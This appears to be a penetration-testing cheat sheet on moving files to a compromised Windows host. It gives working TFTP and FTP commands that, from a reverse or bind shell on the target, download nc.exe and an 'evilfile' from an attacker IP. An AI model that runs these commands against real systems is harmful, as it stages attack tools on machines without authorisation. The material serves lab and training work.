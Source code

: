 ## File Transfers
#### TFTP UDP Transfer
```
# Create directory to serve files
mkdir /tftp

# Start atftpd daemon and listen on UDP port 69 using /tftp as root
atftpd --daemon --port 69 /tftp

# Copy file to share to host directory
cp /usr/share/windows-binaries/nc.exe /tftp/

# In your reverse/bind shell on the target machine, change 10.11.1.140 to attacking ip
tftp -i 10.11.1.140 GET nc.exe
```
---
#### FTP File Transfer
On attacking machine, setup an ftp server
```
apt-get install pure-ftpd
```

Download and run the following setup file, it will create an ftp user 'bedford'
[setup-ftp](/setup-ftp)

Change user permissions, run file and set password on request
```
chmod 755
./setup-ftp
```

Copy and paste the following code into your Windows target bind/reverse shell
```
echo open 10.11.1.140 21> ftp.txt
echo user bedford>> ftp.txt
echo urpasswd>> ftp.txt
echo bin>> ftp.txt
echo GET evilfile.txt>> ftp.txt
echo bye>> ftp.txt
```
Now in your Windows bind/reverse shell run the ftp.txt file
`ftp -v -n -s:ftp.txt`

---

